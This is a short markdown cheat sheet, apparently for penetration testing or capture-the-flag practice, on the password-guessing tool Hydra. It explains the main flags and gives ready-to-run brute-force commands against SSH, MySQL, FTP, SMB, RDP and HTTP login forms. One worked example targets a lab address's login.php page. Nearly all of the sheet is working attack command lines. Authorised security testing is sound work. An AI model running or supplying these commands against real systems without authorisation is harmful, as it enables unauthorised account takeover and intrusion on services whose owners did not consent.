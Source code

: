 # Hydra Cheatsheet

#### Syntax
`hydra [options] host_to_attack`

#### Common flags:
- -h: see the help menu
- -l username: Pass single username/login
- -L users.txt: Pass multiple usernames/logins
- -p password: Pass single known password
- -P passwords.tx: Pass a password list or wordlist (ex.: rockyou.txt)
- -s num: Use custom port
- -f: Exit as soon as at least one a login and a password combination is found
- -R: Restore previous session (if crashed/aborted)
- -t: Number of threads

#### SSH
`hydra -f -l user -P passwords.txt <IP> ssh`

OR

`hydra -f -l user -P passwords.txt ssh://<IP>`
#### MySQL
`hydra -f -l user -P passwords.txt <IP> mysql`
#### FTP
`hydra -f -l user -P passwords.txt <IP> ftp`
#### SMB
`hydra -f -l user -P passwords.txt <IP> smb`
#### HTTP POST FORM
**Format:**
`hydra -l user -P passwords.txt <IP> http-post-form "<Login Page Relative URL>:<POST Request Body>:<Error Message Indicator>"`

**Example:**
`hydra -l user -P passwords.txt 10.10.3.6 http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"`
#### Windows RDP
`hydra -f -l user -P passwords.txt rdp://<IP>`
